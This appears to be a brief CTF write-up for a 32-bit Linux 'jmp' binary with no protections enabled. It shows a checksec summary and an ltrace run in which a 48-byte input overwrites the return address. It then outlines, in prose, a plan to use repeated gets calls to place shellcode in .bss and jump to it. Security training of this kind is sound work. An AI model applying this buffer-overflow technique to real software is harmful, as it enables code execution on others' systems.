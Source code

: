 0x1 Introduction
=

`jmp: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=afcb1c16b8d5a795af98824aaede8fabc045d4ed, not stripped`

This file is elf 32 bit execution.

	CANARY    : disabled

	FORTIFY   : disabled

	NX        : disabled
	
	PIE       : disabled
	
	RELRO     : Partial

And it didnt have any protect.

0x2 Vulnerability
=

	root@CTF:~/CTF/TUCTF/pwn/jmp# python -c "print 'a'*44+'zzzz'"|ltrace -i ./jmp 

	[0x8048441] __libc_start_main(0x804851d, 1, 0xffe1b004, 0x80485f0 <unfinished ...>

	[0x8048532] puts("What's your name?"What's your name?)                                                                           = 18

	[0x804853f] fflush(0xf7700ac0)                                                                                  = 0

	[0x804854b] gets(0xffe1af40, 47, 0x804a000, 0x8048642)                                                          = 0xffe1af40

	[0x8048557] puts("What's your favorite number?"What's your favorite number?)                                                                = 29

	[0x8048564] fflush(0xf7700ac0)                                                                                  = 0

	[0x8048578] __isoc99_scanf(0x80486af, 0x804a048, 0x804a000, 0x8048642)                                          = 0xffffffff

	[0x80485a1] printf("Hello %s, %d is an even number!\n"..., "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"..., 0Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaazzzz, 0 is an even number!)            = 77

	[0x80485ae] fflush(0xf7700ac0)                                                                                  = 0

	[0x7a7a7a7a] --- SIGSEGV (Segmentation fault) ---

	[0xffffffffffffffff] +++ killed by SIGSEGV +++

It is easy to controller return address.

And it have `080483d0 <gets@plt>:` function.

So can use this function call to write bss and ret to bss to execute shellcode.

But it have a problem,When I first use gets,It can't write to bss.

But it can write in second time when use gets.

So I'm use double gets.And return start In second gets.

If return to start,program will begin again.

And just buffer overflow again and jump to bss.
